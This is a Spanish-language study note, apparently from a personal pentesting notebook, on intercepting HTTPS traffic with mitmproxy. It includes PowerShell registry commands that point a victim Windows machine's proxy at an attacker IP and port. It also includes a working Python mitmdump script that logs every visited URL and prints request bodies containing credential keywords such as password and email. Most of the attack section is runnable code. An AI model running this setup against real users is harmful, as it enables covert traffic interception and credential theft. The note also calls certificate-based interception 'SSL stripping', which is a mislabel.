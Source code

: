 -----
- Tags: #teoria #practica #ataques 
----
# HTTPS Sniffing - SSL/TLS Stripping

El *HTTPS Sniffing*, también conocido como *SSL/TLS Stripping*, es una técnica utilizada por atacantes para interceptar el tráfico cifrado HTTPS entre un usuario y un servidor. Aunque el protocolo HTTPS está diseñado para proporcionar una capa de seguridad adicional mediante la encriptación de la comunicación entre el navegador y el servidor, el HTTPS Sniffing intenta debilitar esta seguridad.

----
# Ataque

El desafío con el tráfico HTTPS, que está *cifrado* para proteger la privacidad y seguridad de los datos ,qes que no se puede leer directamente. Aquí es donde entra en juego la instalación de un certificado en la máquina víctima. Al hacer esto, engañamos al dispositivo para que confíe en un determinado destino (Un *proxy* nuestro), lo que nos permitirá descifrar y acceder al contenido del tráfico HTTPS. De más está decir que para esto necesitaríamos tener acceso a la máquina víctima, sea por una previa explotación para espíar el tráfico posteriormente. 

Con herramientas como **mitmdump** podremos llevar a cabo este ataque, dado que es una herrmienta que actúa como un proxy, permitiéndonos interceptar, modificar y analizar el tráfico entre un cliente y un servidor. 

Una vez instalado **mitmdump**, tendremos tres binarios: 

- mitmdump
- mitmproxy
- mitmweb

En este caso, dejaremos corriendo el **mitmweb**, el cual nos habilitara el servidor proxy por el puerto *8080*, posteriormente deberemos configurar el proxy en la máquina víctima, en caso de ser una máquina Windows, podríamos hacerlo desde una terminal como el usuario administrador con las siguientes líneas: 

```powershell
# Enable Proxy True
reg add "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable /t REG_DWORD /d 1 /f
# Configurate your proxy server
reg add "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer /t REG_SZ /d "192.168.1.41:8080" /f
```

Con el binario **mitmproxy**, se nos desplegará una interfaz grafica en donde podremos ver todas las peticiones y desplegar la información de las mismas que realize la máquina vícitma, pero deberíamos proceder a *configurar el certificado*, de lo contrario todas las búsquedas web que realize el usuario se verán con una alerta de seguridad.

Otra opción es crear *scripts propios* y hacer uso de **mitmdump** para vincularlos:

Script propio en Python:
```python
#!/usr/bin/env python3 
from mitmproxy import http
from urllib.parse import urlparse

urls_visiteds = set()
sensible_words = ["login", "user", "pass", "username", "password", "admin", "name", "uname", "pwd", "email", "mail", "correo", "urname"]

def is_sensible(data):
    return any(word in data for word in sensible_words)


def request(packet):
    url = packet.request.url
    url = urlparse(url)
    protocol = url.scheme
    domain = url.netloc
    path = url.path
    data = packet.request.get_text()


    url_to_show = f"{protocol}://{domain}{path}"

    if url_to_show not in urls_visiteds:
        urls_visiteds.add(url_to_show)
        print(f"\n[+] URL Visited: {url_to_show}\n")

    if is_sensible(data):
        print("\n\n\t[!] Possible sensible data:\n")
        print(data)
```

Para vincular este scrip, deberíamos ejecutar el comando:

```bash
./mitmdump -s script.py --quiet
```